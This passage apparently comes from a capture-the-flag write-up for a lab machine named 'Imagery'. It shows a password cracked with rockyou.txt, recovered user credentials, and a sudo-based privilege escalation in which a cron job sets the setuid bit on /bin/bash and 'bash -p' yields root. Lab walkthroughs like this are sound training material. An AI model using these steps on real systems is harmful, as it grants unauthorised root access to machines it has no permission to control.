 ```python

```

Courtesy of chatgpt lol. 

When using rockyou.txt it yields `bestfriends` as the password. Now this just contains the web directory we saw on initial access but with a new password for a user `mark`. So the credentials are `mark:supersmash`.

Now that that's done let's `su mark` and get user flag.

## Privilege Escalation

Now on running `sudo -l` you can see this

```bash
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

So we'll exploit that using it's help menu to read the docs (couldnt find this thing online idk why).

First I ran:

```bash
sudo /usr/local/bin/charcol -R
```

This completely resets the password (I saw this from the help menu.)
Then run this

```bash
sudo /usr/local/bin/charcol shell
```

Now you can enter the shell. After this we will schedule a malicious cron job that will give privileged mode to bash.

So I did this in the charcol shell

```bash
auto add --schedule "* * * * *" --command "chmod +s /bin/bash" --name "hack"
```

Wait for a bit and then run `/bin/bash -p`. You will get root.
